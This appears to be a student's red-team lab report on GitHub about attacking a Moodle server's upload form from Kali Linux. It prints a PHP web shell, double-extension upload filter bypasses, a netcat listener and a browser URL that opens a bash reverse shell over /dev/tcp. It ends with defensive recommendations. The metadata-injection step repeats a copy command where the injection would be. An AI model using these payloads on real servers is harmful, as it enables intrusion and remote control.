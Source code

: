 # 🛡️ SSI Project – Red Team Exploitation Report

This report presents the various exploitation attempts made as part of the Information Systems Security (ISS) project, from a Kali Linux machine aimed at compromising the Moodle web server hosted on Ubuntu.
The aim was to obtain a reverse shell using an upload vulnerability.

---

## 🔍 Objective

The aim of the attack was to :

- Bypass the **upload file filtering** system
- Upload a **file containing malicious PHP code**.
- Execute this code remotely via the browser
- Establish a **reverse shell connection** to the Kali machine (attacker)

---

## 🔓 Technical context

- Target machine (victim)** : Ubuntu 22.04, Moodle server with an upload form
- Attacking machine** : Kali Linux on the same local network (192.168.56.X)
- PHP-side back-end filtering** prevents the upload of suspicious files via a blacklist of strings such as :

php
eval(, system(, exec(, shell_exec(, base64_decode(,
passthru(, pcntl_exec(, posix_getuid(, <script>, etc.

---

🧨Attack I – Reverse Shell Attempts

### Step 1: Create a PHP reverse shell

On Kali, I created a basic shell:
    
```bash
<?php system($_GET['cmd']); ?>
```

### Step 2: Attempt to bypass with double extensions

- First attempt: rename file to shell.php.png
- Then: shell.png.php
    
![image](https://github.com/user-attachments/assets/00e97c40-51be-48d6-8671-289b41d04f29)
         
I then tried uploading the malicious file:   
         ![image](https://github.com/user-attachments/assets/699bb173-b445-476f-9f4a-ee2bbad396f5)
         

We obtained :

![image](https://github.com/user-attachments/assets/26c0b211-1f3f-4d17-b24f-16c3fb27d836)

🔴 Failed: The backend detected the malicious content, despite the file appearing as an image.


Error message:


❌ File failed security scan


---
    
    
Filtering Bypass Attempts

Attempt: Appending PHP payload directly to an image

```bash
echo "<?php system(\$_GET['cmd']); ?>" >> shell.png
mv shell.png shell.php.png
```
 
     
Working Solution: Metadata Injection + Obfuscation 

   1. Use a clean, existing image
          
        ```bash
        cp /usr/share/icons/gnome/256x256/devices/computer.png shell.png
        ```
                          
        ![image](https://github.com/user-attachments/assets/d6660168-cb58-419d-b93f-e2ee53d6af1f)

    
   2. Inject an obfuscated PHP payload into the image’s metadata
      ```bash
        cp /usr/share/icons/gnome/256x256/devices/computer.png shell.png
        ```
    
   This avoids all blacklisted keywords (system, eval, etc.)        
    
   3. Renommer l’image avec une double extension
      ```bash
        mv shell.png shell.php.png
        ```

   4. Upload successful  

   ![image](https://github.com/user-attachments/assets/24ff24d8-0afd-49c9-a9ed-a2ddf21052de)
    

The file passed the scan because :

- The visible image content was clean

- The malicious payload was hidden in metadata

- No blacklisted strings were detected


---
   
Final Goal: Trigger Remote Code Execution

1. Start a Netcat listener on Kali:

   ```bash
   nc -lvnp 4444
   ```

   ![image](https://github.com/user-attachments/assets/f4e72480-6804-4099-8820-356d4f934546)
    
 2. Trigger the payload through the browser
    ```bash
    http://192.168.56.101:5173/upload/shell.php.png?a=system&b=bash+-c+'bash+-i+>%26+/dev/tcp/192.168.56.102/4444+0>%261'
    ```   

Conclusion :

Although the full reverse shell wasn’t successfully established (due to server-side execution restrictions or PHP config), the following was achieved:

✅ Successfully bypassed file upload filtering
✅ Uploaded a disguised PHP webshell
✅ Injected a stealthy payload using image metadata
✅ Identified and documented backend protections

This demonstrates that poorly configured file upload systems remain vulnerable, especially when tools like exiftool can inject code into alternate vectors like metadata.




Blue Team Recommendations :

To improve the defense against such attacks:

✅ Implement deep filtering of metadata (Title, Description, EXIF Comment)

✅ Disable PHP execution in upload directories

✅ Rename and hash uploaded files server-side

✅ Add server-side antivirus scanning (e.g., ClamAV) and sandbox execution for analysis
